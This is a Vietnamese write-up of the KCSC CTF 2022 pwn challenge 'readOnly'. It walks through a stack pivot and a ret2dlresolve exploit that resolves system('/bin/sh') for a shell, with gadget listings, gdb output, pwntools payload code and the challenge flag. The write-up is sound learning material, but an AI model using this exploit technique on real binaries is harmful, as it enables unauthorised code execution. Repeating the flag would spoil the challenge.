

# KCSC CTF 2022 - readOnly

Các bạn có thể tải chall ở repo của mình: [readOnly.zip](readOnly.zip)

# 1. Tìm lỗi

Với chall này, ta thấy chỉ có mỗi hàm read của libc, không có hàm nào để in dữ liệu ra. Vì vậy ta dự đoán rằng ta sẽ khai thác bằng kỹ thuật ret2dlresolve.

Thông thường, khi mình thực hiện ret2dlresolve trên 64 bit, mình sẽ kiểm tra xem địa chỉ có ghi được thuộc khoảng nào. Nếu thuộc vào khoảng `0x40xxxx` thì ta chắc chắn thực hiện được ret2dlresolve. Nhưng nếu địa chỉ là `0x60xxxx` thì sẽ bị lỗi ngay tại lúc kiểm tra version của dlresolver.

# 2. Ý tưởng

Như thường lệ, ta sẽ stack pivot để có thể điều khiển stack (đó giờ mình làm vậy, còn nếu thực thi mà không cần stack pivot thì mình chưa thử), sau đó ta tạo các structure của JMPREL, SYMTAB và STRTAB và đưa lên stack. Cuối cùng thực thi dlresolver để phân giải và thực thi hàm system để tạo shell.

Tổng kết:
- Stage 1: Stack pivot
- Stage 2.1: Ret2dlresolve - Create structures
- Stage 2.2: Ret2dlresolve - Get shell

# 3. Khai thác

### Stage 1: Stack pivot

Để stack pivot, ta trước tiên cần những thứ sau:

1. Gadget `leave ; ret` hoặc `pop esp`

```bash
$ ROPgadget --binary readOnly | grep ": leave"
0x0000000000401208 : leave ; ret
```

2. Gadget `pop` để điều chỉnh các thanh ghi phục vụ cho việc ghi dữ liệu trước khi pivot

```bash
$ ROPgadget --binary readOnly | grep ": pop"
...
0x000000000040115d : pop rbp ; ret
0x0000000000401293 : pop rdi ; ret
0x0000000000401291 : pop rsi ; pop r15 ; ret
...
```

Ta chỉ cần `pop rdi` và `pop rsi` là đủ.

3. Địa chỉ ghi được

Để lấy địa chỉ ghi được, ta dùng gdb và gõ lệnh `vmmap` của gdb-gef để lấy:

```gdb
gef➤  vmmap
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
...
0x00000000403000 0x00000000404000 0x00000000002000 r-- /home/nguyenhuutri/CTF/KCSC/read0nly/readOnly
0x00000000404000 0x00000000405000 0x00000000003000 rw- /home/nguyenhuutri/CTF/KCSC/read0nly/readOnly
0x007ffff7deb000 0x007ffff7e10000 0x00000000000000 r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so
...
```

Ta sẽ lấy địa chỉ trong khoảng `0x404000` và `0x405000` vì địa chỉ này cố định, phù hợp để thực hiện ret2dlresolve. Vậy ta chọn địa chỉ là `0x404a00`, chọn cao cao xíu nhưng đừng cao quá tại vì ta phải resolve function, sẽ đẩy địa chỉ stack xuống thấp nên nếu ta chọn địa chỉ thấp thì resolve sẽ ra khỏi địa chỉ sử dụng được, dẫn tới segfault.

Vậy ta có payload đầu tiên:

```python
pop_rdi = 0x0000000000401293
pop_rsi_r15 = 0x0000000000401291
leave_ret = 0x0000000000401208
rw_section = 0x00000000404a00

payload = b'A'*(56-8)
payload += flat(
    rw_section,
    pop_rsi_r15,
    rw_section,
    0,
    exe.plt['read'],
    leave_ret
    )
payload = payload.ljust(0x100, b'P')
p.send(payload)
```

### Stage 2.1: Ret2dlresolve - Create structures

Ở bước 2, đầu tiên ta sẽ chọn ra địa chỉ cho SYMTAB, JMPREL và STRTAB. Địa chỉ chọn được sẽ phải thỏa những cái như trong [đây](https://github.com/nhtri2003gmail/CTFNote/tree/master/technique/Ret2dlresolve-64bit#fake-reloc_arg). Ta sẽ thử các địa chỉ xem coi địa chỉ nào thì hợp lí và ta có được địa chỉ để đặt 3 cái fake structure như sau:

```python
JMPREL = 0x4005b8
SYMTAB = 0x4003d0
STRTAB = 0x4004a8
dlresolve = 0x401020

SYMTAB_addr = 0x404a50
JMPREL_addr = 0x404a70
STRTAB_addr = 0x404a90
```

Kiểm tra lại thì thấy oke hết rồi:

```python
>>> JMPREL = 0x4005b8
>>> SYMTAB = 0x4003d0
>>> STRTAB = 0x4004a8
>>> dlresolve = 0x401020
>>> 
>>> SYMTAB_addr = 0x404a50
>>> JMPREL_addr = 0x404a70
>>> STRTAB_addr = 0x404a90
>>> (SYMTAB_addr - SYMTAB)/24
752.0        # symbol_number
>>> (JMPREL_addr - JMPREL)/24
733.0        # reloc_arg
>>> (STRTAB_addr - STRTAB)
17896        # st_name
```

Kế đến ta tìm hết 3 cái là `symbol_number`, `reloc_arg` và `st_name` như trên:

```python
symbol_number = int((SYMTAB_addr - SYMTAB)/24)
reloc_arg = int((JMPREL_addr - JMPREL)/24)
st_name = STRTAB_addr - STRTAB
```

Tiếp theo, ta sẽ lần lượt tạo các structure cho SYMTAB trước:

```python
st_info = 0x12
st_other = 0
st_shndx = 0
st_value = 0
st_size = 0
SYMTAB_struct = p32(st_name) \
    + p8(st_info) \
    + p8(st_other) \
    + p16(st_shndx) \
    + p64(st_value) \
    + p64(st_size)
```

Với SYMTAB, các thông số ta không fake thì để mặc định. Ta có thể dùng gdb để tìm các thông số này (Tìm từ JMPREL trước rồi tới SYMTAB)

Và ta tạo tiếp structure cho JMPREL:

```python
r_offset = 0x404b30
r_info = (symbol_number << 32) | 7
r_addend = 0
JMPREL_struct = flat(r_offset, r_info, r_addend)
```

`r_offset` chỉ cần là địa chỉ ghi được là oke nên ta chọn đại 1 vị trí là được rồi. Cuối cùng là STRTAB, à quên, ta chỉ cần đặt chuỗi `system\x00\x00` vào vị trí mà ta chọn là được rồi =)))

### Stage 2.2: Ret2dlresolve - Get shell

Vậy bây giờ ta đã có đủ mọi thứ cần thiết. Bây giờ ta chỉ việc input vào và cho nó thực thi nữa là xong:

```python
payload = flat(
    b'A'*8,          # Fake rbp
    pop_rsi_r15,
    0,
    0,
    pop_rdi,
    0x404a98,        # String /bin/sh

    dlresolve,
    reloc_arg,       # Reloc_arg
    0,
    0,
    SYMTAB_struct,
    0,
    JMPREL_struct,
    0,
    b'system\x00\x00',
    b'/bin/sh\x00'
    )
p.send(payload)
```

Vì đây là 64 bit nên ta phải setup hết các register rdi, rsi rồi mới hẵn resolve. Cho script nhập dữ liệu vào và ta debug với gdb, dừng ngay tại câu lệnh đầu tiên của dlresolver để kiểm tra `reloc_arg` và structure:

```gdb
gef➤  x/xg $rsp
0x404a38:	0x00000000000002dd    # reloc_arg

gef➤  # x/3xg <JMPREL> + 0x2dd*24
gef➤  x/3xg 0x4005b8 + 0x2dd*24
0x404a70:	0x0000000000404b30	0x000002f000000007
0x404a80:	0x0000000000000000

gef➤  x/3xg <SYMTAB> + (0x000002f000000007>>32)*24
0x404a50:	0x00000012000045e8	0x0000000000000000
0x404a60:	0x0000000000000000

gef➤  x/s <STRTAB> + 0x45e8
0x404a90:	"system"
```

Vậy bây giờ ta chỉ việc cho nó chạy tiếp để lấy flag thôi. Lưu ý rằng nếu kiểm tra structure đã đúng nhưng bị segfault thì có thể địa chỉ bạn lấy đang cao quá hoặc thấp quá nhé.

Full code: [solve.py](solve.py)

# 4. Lấy cờ



Flag là `KCSC{956d188de865314a96f88f7f0aa02078}`